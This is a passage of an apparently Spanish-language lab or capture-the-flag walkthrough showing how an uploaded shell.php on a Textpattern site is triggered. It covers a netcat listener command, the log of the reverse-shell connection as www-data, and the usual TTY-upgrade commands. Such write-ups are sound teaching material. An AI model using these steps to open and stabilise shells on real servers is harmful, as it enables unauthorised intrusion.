 Vemos que se ha subido de forma correcta, por lo que nos vamos a poner a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Ahora en la pagina nos iremos a la siguiente ruta donde se alojan todos estos archivos:

```
URL = http://<IP>/textpattern/files/
```

Y veremos que esta el archivo que hemos subido:

<figure><img src="../../.gitbook/assets/image (347).png" alt=""><figcaption></figcaption></figure>

Ahora si clicamos en `shell.php` y si volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.171] 44902
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
